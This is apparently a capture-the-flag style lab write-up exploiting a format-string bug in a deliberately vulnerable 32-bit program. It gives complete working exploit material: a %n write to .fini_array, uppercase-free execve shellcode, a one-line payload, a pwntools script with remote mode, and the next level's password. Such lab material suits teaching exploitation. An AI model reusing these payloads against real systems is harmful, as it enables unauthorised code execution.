


For this lab, we are given a program and its corresponding source code:


/*
 *   Format String Lab - B Problem
 *   gcc -z execstack -z norelro -fno-stack-protector -o lab4B lab4B.c
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[])
{
    int i = 0;
    char buf[100];

    /* read user input securely */
    fgets(buf, 100, stdin);

    /* convert string to lowercase */
    for (i = 0; i < strlen(buf); i++)
        if (buf[i] >= 'A' && buf[i] <= 'Z')
            buf[i] = buf[i] ^ 0x20;

    /* print out our nice and new lowercase string */
    printf(buf);

    exit(EXIT_SUCCESS);
    return EXIT_FAILURE;
}


The program takes user input, converts any upper case letters to lower case letters and prints out the modified string.

Running `chekcsec` on the binary reveals that all compiler mitigations are disabled.

gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled


A format string vulnerability is introduced when unvalidated user input is passed into `printf()`. This vulnerability gives us a write-what-where primitive that we can leverage to gain arbitrary code execution.

We can exploit this vulnerability by overwriting a destructor pointer in **.fini_array** with the address where our shellcode resides. 
One issue we do have to deal with however, is the fact that we can't use any opcodes in our shellcode from `0x41` to `0x5a`, as they are associated with capital ASCII letters. 

This is particularly problematic because my go-to *execve("/bin/sh")* shellcode uses `push <reg>` instructions which are associated with opcodes in this range.
To bypass this issue, I substituted the `push <reg>` instructions with `sub esp, 0x4` and `mov [esp], <reg>` instructions, which use acceptable opcodes. 
To verify this we can use an [online assembler ](https://defuse.ca/online-x86-assembler.htm#disassembly).

We can use `objdump` to determine the address of the `.fini_array` entry we need to overwrite.


lab4B@warzone:/levels/lab04$ objdump -s -j .fini_array lab4B

lab4B:     file format elf32-i386

Contents of section .fini_array:
 80498ac 40860408                             @...      


We see that we need to overwrite the value stored at address `0x80498ac`.

We can do that using the `%n` format string specifier to perform two controlled writes to address `0x80489ac` and `0x80498ae`. 

Using **fixenv** and **gdb**, we can also see that the address `0xbffff780` points to the middle of our NOP sled, so we will overwrite the `.fini_array` entry with this address.


0060| 0xbffff77c --> 0x90906e25 
0064| 0xbffff780 --> 0x90909090 
0068| 0xbffff784 --> 0x90909090 
0072| 0xbffff788 --> 0x90909090 
0076| 0xbffff78c --> 0x90909090 


One issue with the `0x80498ae` address, however, is that the upper 2 bytes, `0xbfff` are smaller than `0xf780`, so when we are determining the width of the `%x`, we need to determine how many bytes will allow us to write `0x1bfff` to these 2 bytes.  
After performing some calculations, we determine that `%51327x%n` will write `0x1bfff` to `0x80498ae`.

Putting everything together, the following input will give us a shell.


lab4B@warzone:/tmp/lab4b$ (python -c 'print "\xac\x98\x04\x08"+"AAAA"+"\xae\x98\x04\x08"+"%x"*4+"%63329x%n"+"%51327x%n"+"\x90"*20+"\x31\xc0\x83\xec\x04\x89\x04\x24\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x83\xec\x04\x89\x04\x24\x89\xe2\x83\xec\x04\x89\x1c\x24\x89\xe1\xb0\x0b\xcd\x80"'; cat -) | fixenv /levels/lab04/lab4B

[...]

                                                                               61616161????????????????????1????$hn/shh//bi????$????$??
                                                                                                                                       ̀
id
uid=1015(lab4B) gid=1016(lab4B) euid=1016(lab4A) groups=1017(lab4A),1001(gameuser),1016(lab4B)
cat /home/lab4A/.pass
fg3ts_d0e5n7_m4k3_y0u_1nv1nc1bl3


The pwntools version of this is as follows.


#!/usr/bin/env python

from pwn import *
import sys

'''
r < <(python -c 'print "\xac\x98\x04\x08"+"AAAA"+"\xae\x98\x04\x08"+"%x"*4+"%63329x%n"+"%51327x%n"+"\x90"*20+"\x31\xc0\x83\xec\x04\x89\x04\x24\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x83\xec\x04\x89\x04\x24\x89\xe2\x83\xec\x04\x89\x1c\x24\x89\xe1\xb0\x0b\xcd\x80"')
'''

def sh():
  sc = '''xor eax, eax
          sub esp, 4
          mov [esp], eax
          push 0x68732f6e
          push 0x69622f2f
          mov ebx, esp
          sub esp, 4
          mov [esp], eax
          mov edx, esp
          sub esp, 4
          mov [esp], ebx
          mov ecx, esp
          mov al, 11
          int 0x80 
       '''
  return asm(sc, os='linux', arch='x86')

def exploit(r):
  payload = p32(0x80498ac)
  payload += "AAAA"
  payload += p32(0x80498ae)
  payload += "%x"*4
  payload += "%63329x%n"
  payload += "%51327x%n"
  payload += "\x90"*20
  payload += sh()
  r.sendline(payload) 
  r.interactive()

if __name__ == "__main__":
  log.info("For remote: %s HOST PORT" % sys.argv[0])
  if len(sys.argv) > 1:
    r = remote(sys.argv[1], int(sys.argv[2]))
    exploit(r)
  else:
    r = process(['fixenv','/levels/lab04/lab4B'])
    print util.proc.pidof(r)
    pause()
    exploit(r)


